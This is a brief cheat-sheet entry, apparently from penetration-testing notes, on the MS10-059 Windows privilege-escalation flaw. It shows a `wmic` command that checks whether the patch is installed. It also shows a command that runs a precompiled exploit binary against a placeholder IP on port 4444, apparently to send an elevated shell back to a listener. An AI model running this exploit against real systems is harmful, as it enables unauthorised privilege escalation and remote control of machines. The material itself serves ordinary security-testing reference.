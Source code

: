 Vulnerabilities in the tracing feature for services could allow elevation of privilege (982799)

Check if patch is installed

```sh
wmic qfe |findstr /s "982799"
```

```sh
MS10-059.exe xx.xx.xx.xx 4444
```
